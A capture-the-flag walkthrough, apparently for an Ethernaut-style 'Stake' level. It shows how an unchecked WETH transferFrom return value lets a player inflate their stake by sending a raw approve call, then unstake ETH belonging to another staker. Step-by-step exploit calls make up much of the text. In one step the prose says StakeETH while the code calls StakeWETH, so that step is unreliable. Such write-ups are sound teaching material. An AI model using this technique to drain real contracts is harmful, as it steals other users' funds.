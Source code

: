 # Answer

Goal:

1. Stake contract ETH balance should be >0
2. `totalStaked` > Stake contract ETH balance
3. Player must be a staker
4. Player staked balance must equal 0.

## 1. Become a staker

One of the requirements is to be a staker, it's pretty easy to become one - just stake some ETH (>0.001ETH):

```js
await contract.StakeETH('5000000000000000')
```

This will also increase the contract ETH balance. Points [1] and [3] - done.

## 2. Creating ETH disbalance

The main vulnerability of the contract is right here in `StakeWETH()` function:

```solidity
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount)); // <-- VULNERABILITY
        Stakers[msg.sender] = true;
        return transfered;
    }
```

Even if `transfered` is false, it is not checked only returned. So if the function is called directly the value will not matter. And our staked balance `UserStake[msg.sender]` will become larger than the actual staked amount.

But before we call this function we need to pass the previous call which checks for allowance. Even if we don't have any balance of this token, we can approve as much as we want:

```javascript
await sendTransaction({
  from: player,
  to: '<WETH address>',
  data: '095ea7b3000000000000000000000000<Stake address>000000000000000000001aba4714957d300d0e549208b31adb0fffffffffffff', // <- `approve` selector with quantity larger than StakeWeth `amount` argument
})
```

After this we are free to bloat our stake as much as we want, so we double:

```javascript
await contract.StakeWETH('5000000000000000')
```

Point [2] - done.

## 3. Stealing funds and setting player staked balance to 0

But now we are in trouble. The contract actually has 0.005 ETH from our `StakeETH()` call but the player `UserStake` is double that size (0.01 ETH), because of the malicious `StakeWETH()` call. To be able to reset our `UserStake` balance to zero, we need someone also to stake actual ETH. Atleast with the amount to cover our `UserStake` and some extra so that after the withdrawal, the [1] point of the requirements wouldn't be violated. To do this we set our wallet to a different address and call `StakeETH` again:

```javascript
await contract.StakeWETH('6000000000000000')
```

Now:

- `UserStake[player]` -> 0.01 ETH (0.005 ETH - from StakeETH and 0.005 ETH from StakeWETH)
- `UserStake[victim]` -> 0.006 ETH
- `totalStaked` -> 0.016 ETH
- Contract ETH balance -> 0.011 ETH

We can freely `Unstake()` our whole amount by stealing a piece of the other staker (victim) ETH.

```javascript
await contract.Unstake('10000000000000000')
```

Points [4] - done and all points covered!
